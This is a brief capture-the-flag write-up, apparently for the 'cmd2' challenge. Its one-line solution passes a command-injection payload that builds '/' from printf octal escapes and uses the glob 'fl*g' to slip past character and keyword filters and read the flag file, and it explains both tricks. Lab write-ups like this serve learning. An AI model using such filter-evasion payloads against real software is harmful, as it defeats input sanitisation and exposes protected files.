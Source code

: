 # Solution:
```./cmd2 '$(printf "%b" "\57")bin$(printf "%b" "\57")cat fl*g'```

# Explanation:
* $(printf "%b" "\57") is replaced with "/" (in order to bypass "/" filter)
* fl*g is replaced with flag (in order to bypass "flag" filter)

